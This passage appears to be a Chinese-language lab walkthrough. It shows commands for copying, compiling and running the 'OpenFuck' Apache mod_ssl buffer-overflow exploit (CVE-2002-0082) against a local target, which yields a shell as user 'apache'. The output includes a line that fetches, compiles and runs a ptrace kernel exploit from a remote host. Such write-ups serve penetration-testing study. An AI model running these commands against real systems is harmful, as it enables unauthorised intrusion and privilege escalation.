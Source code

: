 将该文件复制到当前目录

```
┌──(root㉿kali)-[~/Desktop/test]
└─# searchsploit -m unix/remote/47080.c 
  Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
      URL: https://www.exploit-db.com/exploits/47080
     Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
    Codes: CVE-2002-0082, OSVDB-857
 Verified: False
File Type: C source, ASCII text
Copied to: /root/Desktop/test/47080.c
```

gcc 编译该脚本

```
┌──(root㉿kali)-[~/Desktop/test]
└─# gcc -o 47080 47080.c -lcrypto 
```

编译好之后就可以攻击目标了

```
┌──(root㉿kali)-[~/Desktop/test]
└─# ./47080 0x6b 192.168.43.222 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--04:53:22--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$ 
bash-2.05$ whoami
whoami
apache
```
